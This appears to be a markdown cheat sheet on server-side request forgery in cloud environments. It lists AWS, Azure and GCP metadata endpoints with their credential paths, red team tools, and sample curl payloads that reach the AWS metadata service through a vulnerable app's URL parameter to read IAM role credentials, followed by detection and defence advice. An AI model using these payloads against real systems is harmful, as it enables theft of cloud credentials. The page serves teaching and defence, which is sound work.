 # Server-Side Request Forgery (SSRF) in Cloud Environments

## Overview
Server-Side Request Forgery (SSRF) is a vulnerability where an attacker can manipulate a vulnerable server to send unauthorized HTTP requests. This can be exploited in cloud environments to access metadata services that expose temporary credentials and sensitive information.

## Targeted Cloud Metadata Endpoints
| Cloud | Metadata IP | Credential Path |
|-------|-------------|-----------------|
| AWS   | 169.254.169.254 | /latest/meta-data/iam/security-credentials/ |
| Azure | 169.254.169.254 | /metadata/identity/oauth2/token |
| GCP   | 169.254.169.254 | /computeMetadata/v1/instance/service-accounts/default/token |

## MITRE ATT&CK Techniques
- T1212: Exploitation for Credential Access
- T1071.001: Application Layer Protocol: Web
- T1557.001: Adversary-in-the-Middle

## Red Team Tools
- curl
- SSRFmap
- Burp Suite (with Collaborator)
- wfuzz

## Sample Exploitation Payloads
```bash
curl http://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/
```

AWS Example:
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/MyRole
```

## Blue Team Detection and Defense

### Detection
- Monitor AWS CloudTrail for anomalous IAM role accesses
- Use VPC Flow Logs to detect access to metadata IPs
- Azure Monitor and GCP Audit Logs for unusual token usage

### Defense
- Enforce IMDSv2 in AWS
- Disable direct metadata access unless required
- Block 169.254.169.254 via outbound firewall/NACL rules
- Implement input validation and use URL allow-listing

## References
- AWS Security Blog: https://aws.amazon.com/blogs/security/
- SSRFmap GitHub: https://github.com/swisskyrepo/SSRFmap
- MITRE ATT&CK: https://attack.mitre.org/techniques/T1212/
